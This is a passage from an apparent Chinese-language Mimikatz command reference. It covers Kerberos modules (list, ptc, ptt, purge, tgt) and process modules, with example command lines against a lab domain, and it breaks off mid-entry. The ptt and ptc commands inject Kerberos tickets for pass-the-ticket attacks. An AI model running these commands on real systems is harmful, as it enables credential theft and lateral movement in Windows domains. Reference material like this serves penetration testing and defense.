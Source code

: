 ```
具有类似于klist命令的功能，而不需要提升权限。与sekurlsa::tickets不同，该模块不与LSASS交互。

```
mimikatz # kerberos::list
```

## ptc

可以用来传递缓存。这类似于kerberos::ptt，它确实传递了票据，但不同的是，使用的票据是.ccache票据而不是.kirbi票据。
```
mimikatz # kerberos::ptc m3g9tr0n@HACKLAB.LOCAL_krbtgt~HACKLAB.LOCAL@HACKLAB.LOCAL.ccache
```

## ptt

用于通过在当前会话中注入一个或多个 Kerberos 票据来传递票据。票据可以是TGT（Ticket-Granting Ticket），也可以是ST（Service Ticket）。

```
mimikatz # kerberos::ptt 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi
```

## purge

清除票据，等价于```klist purge```命令
```
mimikatz # kerberos::purge
```

## tgt

检索当前用户的TGT（Ticket-Granting Ticket）。

```
mimikatz # kerberos::tgt
```

# process

## exports

> lists all the exported functions from the DLLs each running process is using. If a```/pid ```is not specified, then exports for mimikatz.exe will be displayed.

```
mimikatz # process::exports

mimikatz # process::exports /pid:3516
```

## imports

> lists all the imported functions from the DLLs each running process is using. If a```/pid``` is not specified, then imports for mimikatz.exe will be displayed. 

```
mimikatz # process::imports
```

## list

列出所有运行的进程
```
mimikatz # process::list
```

## resume
```